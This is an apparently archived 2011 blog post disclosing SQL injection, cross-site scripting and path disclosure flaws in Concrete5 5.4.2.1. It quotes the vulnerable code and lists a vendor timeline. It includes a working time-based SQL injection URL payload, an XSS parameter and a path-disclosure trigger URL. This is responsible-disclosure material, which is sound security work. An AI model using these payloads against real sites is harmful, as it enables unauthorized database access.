 ```yaml
---
layout: post
status: publish
published: true
title: Concrete5 <= 5.4.2.1 SQL Injection and XSS Vulnerabilities
author:
  display_name: ethicalhack3r
  login: ethicalhack3r
  email: ryandewhurst@gmail.com
  url: ''
author_login: ethicalhack3r
author_email: ryandewhurst@gmail.com
excerpt: "# Exploit Title: Concrete5 < = 5.4.2.1 SQL Injection and XSS Vulnerabilities\r\n#
  Date: 2011-10-04\r\n# Author: Ryan Dewhurst (ryandewhurst at gmail) (@ethicalhack3r)(www.ethicalhack3r.co.uk)\r\n#
  Software Link: http://sourceforge.net/projects/concretecms/files/concrete5/5.4.2.1/\r\n#
  Version: 5.4.2.1 (tested)\r\n\r\n1.Vulnerability Description\r\n\r\nMultiple SQL
  Injection, Cross-Site Scripting (XSS) and Information Disclosure vulnerabilities
  were identified within Concrete5 version 5.4.2.1\r\n\r\nPlease note: Only a select
  few vulnerabilities are outlined in this disclosure, many other vulnerabilities
  were discovered. Due to time restraints only a small sample of the vulnerabilities
  are outlined below. The vendor was contacted and replied promptly. Further assistance
  was asked for but not delivered due to my time constraints.\r\n\r\n2.Software Description\r\n\r\nCMS
  made for Marketing but built for Geeks, concrete5 [0] is a content management system
  that is free and open source.\r\n\r\n"
wordpress_id: 16555
wordpress_url: http://www.ethicalhack3r.co.uk/?p=16555
date: '2011-10-04 12:52:06 +0100'
date_gmt: '2011-10-04 11:52:06 +0100'
---
```

<p># Exploit Title: Concrete5 < = 5.4.2.1 SQL Injection and XSS Vulnerabilities<br />
# Date: 2011-10-04<br />
# Author: Ryan Dewhurst (ryandewhurst at gmail) (@ethicalhack3r)(www.ethicalhack3r.co.uk)<br />
# Software Link: http://sourceforge.net/projects/concretecms/files/concrete5/5.4.2.1/<br />
# Version: 5.4.2.1 (tested)</p>
<p>1.Vulnerability Description</p>
<p>Multiple SQL Injection, Cross-Site Scripting (XSS) and Information Disclosure vulnerabilities were identified within Concrete5 version 5.4.2.1</p>
<p>Please note: Only a select few vulnerabilities are outlined in this disclosure, many other vulnerabilities were discovered. Due to time restraints only a small sample of the vulnerabilities are outlined below. The vendor was contacted and replied promptly. Further assistance was asked for but not delivered due to my time constraints.</p>
<p>2.Software Description</p>
<p>CMS made for Marketing but built for Geeks, concrete5 [0] is a content management system that is free and open source.</p>
<p><a id="more"></a><a id="more-16555"></a></p>
<p>3.SQLi PoC [1] (authenticated user)</p>
<p>http://concrete5.4.2/index.php/dashboard/reports/surveys/?ccm_order_by=numberOfResponses&ccm_order_dir=,(SELECT BENCHMARK(1000000,MD5(1)) FROM btSurveyResults where CURRENT_USER() like 'root@localhost' limit 1) -- </p>
<p>4.Vulnerable code</p>
<p>File: concrete/controllers/dashboard/reports/surveys.php</p>
<p>[php]<br />
class SurveyList extends DatabaseItemList {<br />
       protected $itemsPerPage = 10;<br />
       protected $autoSortColumns = array('cvName', 'question',<br />
'numberOfResponses', 'lastResponse');</p>
<p>       function __construct() {<br />
               $this->setQuery(<br />
                          'select distinct btSurvey.bID,<br />
CollectionVersions.cID, btSurvey.question, CollectionVersions.cvName,<br />
(select max(timestamp) from btSurveyResults where btSurveyResults.bID<br />
= btSurvey.bID and btSurveyResults.cID = CollectionVersions.cID) as<br />
lastResponse, (select count(timestamp) from btSurveyResults where<br />
btSurveyResults.bID = btSurvey.bID and btSurveyResults.cID =<br />
CollectionVersions.cID) as numberOfResponses ' .<br />
                               'from btSurvey, CollectionVersions,<br />
CollectionVersionBlocks');<br />
               $this->filter(false, 'btSurvey.bID =<br />
CollectionVersionBlocks.bID');<br />
               $this->filter(false, 'CollectionVersions.cID =<br />
CollectionVersionBlocks.cID');<br />
               $this->filter(false, 'CollectionVersionBlocks.cvID =<br />
CollectionVersionBlocks.cvID');<br />
               $this->filter(false, 'CollectionVersions.cvIsApproved = 1');<br />
               $this->userPostQuery .= 'group by btSurvey.bID,<br />
CollectionVersions.cID';<br />
       }<br />
}<br />
[/php]</p>
<p>5.Cross-Site Scripting (XSS)</p>
<p>Page: http://192.168.1.105/concrete5.4.2/index.php/login/forgot_password/<br />
Parameter: rcID<br />
Method: POST<br />
PoC: Any JavaScript</p>
<p>6.Vulnerable Code</p>
<p>File: concrete/single_pages/login.php:</p>
<p>[html]<input type="hidden" name="rcID" value="< ?php echo $rcID?/>">[/html]</p>
<p>7.Full Path Disclosure (FPD)</p>
<p>http://concrete5.4.2/index.php/tools/blocks/page_list/blog_rss?bID=30&cID='&arHandle=Main</p>
<p>8.Vulnerability Timeline</p>
<p>2011-09-06 - Reported to vendor<br />
2011-09-06 - Vendor Reply<br />
2011-09-07 - Vendor Acknowledge Vulnerabilities and asked for assistance patching. No assistance given apart from the initial report due to time constraints.<br />
2011-10-04 - Vulnerability Disclosed</p>
<p>9.References</p>
<p>[0] <a href="http://www.concrete5.org/" target="_blank">http://www.concrete5.org/</a><br />
[1] <a href="http://www.bonsai-sec.com/blog/index.php/not-the-average-sql-injection/" target="_blank">http://www.bonsai-sec.com/blog/index.php/not-the-average-sql-injection/</a></p>
